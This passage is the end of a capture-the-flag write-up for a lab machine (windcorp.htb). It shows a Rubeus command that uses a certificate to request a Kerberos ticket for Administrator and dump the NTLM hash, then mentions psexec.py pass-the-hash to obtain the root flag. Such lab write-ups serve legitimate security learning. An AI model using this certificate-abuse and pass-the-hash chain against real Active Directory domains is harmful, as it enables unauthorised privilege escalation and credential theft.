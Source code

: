   PSParentPath: Microsoft.PowerShell.Security\Certificate::currentuser\my

Thumbprint                                Subject                                                                      
----------                                -------                                                                      
1C7115A30632E82A04A73417975975193492958

<strong>PS C:\Windows\Tasks> .\rubeus.exe asktgt /user:Administrator /getcredentials /certificate:1C7115A30632E82A04A73417975975193492958
</strong><strong>&#x3C;TRUNCATED>
</strong> ServiceName              :  krbtgt/windcorp.htb
  ServiceRealm             :  WINDCORP.HTB
  UserName                 :  Administrator
  UserRealm                :  WINDCORP.HTB
  StartTime                :  1/26/2022 2:02:44 PM
  EndTime                  :  1/27/2022 12:02:44 AM
  RenewTill                :  2/2/2022 2:02:44 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  eFQWOai0Ha57hYJqqDcGUA==
  ASREP (key)              :  B98F843C14877A1B3AF0F77C3A82999E

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 3CCC18280610C6CA3156F995B5899E09
</code></pre>

Then, using this hash, we can easily `psexec.py` in as the administrator and grab the root flag:

<figure><img src="../../../.gitbook/assets/image (44) (9).png" alt=""><figcaption></figcaption></figure>

This part was pretty hard for me, and I had to use a walkthrough because I couldn't find the right tools to use. Great machine though!&#x20;
